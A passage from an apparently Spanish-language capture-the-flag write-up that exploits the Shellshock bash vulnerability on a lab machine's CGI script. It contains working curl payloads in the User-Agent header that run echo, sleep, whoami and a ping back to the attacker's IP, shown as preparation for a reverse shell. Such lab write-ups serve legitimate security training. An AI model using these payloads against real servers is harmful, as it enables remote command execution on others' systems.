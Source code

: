 ```bash
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|_      http://seclists.org/oss-sec/2014/q3/685
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: XX (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.90 seconds
```
Muy bien, si es vulnerable.

De igual forma, podemos aplicar pruebas que vienen en **HackTricks** utilizando la herramienta **curl**:
* <a href="https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/cgi.html?highlight=cgi#curl-reflected-blind-and-out-of-band" target="_blank">HackTricks - CGI: Curl (reflected, blind and out-of-band)</a>

Probemos primero el ataque reflejado: 
```bash
curl -H 'User-Agent: () { :; }; echo; echo "VULNERABLE TO SHELLSHOCK"' http://192.168.1.200:8080/cgi-bin/agua.cgi 2>/dev/null| grep 'VULNERABLE'
VULNERABLE TO SHELLSHOCK
```
Funciona, se ve que es vulnerable.

Nota: Aquí le agregué el comando `echo;`, ya que si no no funcionara.

Hagamos otra prueba, aplicando el ataque blind en donde nos tiene que responder en 5 segundos:
```bash
curl -H 'User-Agent: () { :; }; echo; /bin/bash -c "sleep 5"' http://192.168.1.200:8080/cgi-bin/agua.cgi
```
Igual funciona, tardo exactamente 5 segundos en terminar la petición.

También podemos ver qué usuario es el que está ejecutando todo esto, que lo más seguro sea el **usuario www-data**:
```bash
curl -H "User-Agent: () { :; }; echo; /usr/bin/whoami" 'http://192.168.1.200:8080/cgi-bin/agua.cgi'
www-data
```
Excelente, si es ese usuario.

Por último, vamos a mandar una **traza ICMP** a nuestra máquina para ver si es que podemos aplicar una **Reverse Shell**.

Vamos a utilizar la herramienta **tcmpdump** para que captura la traza:
```bash
tcpdump -i eth0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

Y aplicando el **ataque ShellShock**, mandamos la traza desde la página con **curl**:
```bash
curl -H 'User-Agent: () { :; }; echo; /bin/bash -c "ping -c 2 Tu_IP"' http://192.168.1.200:8080/cgi-bin/agua.cgi
```
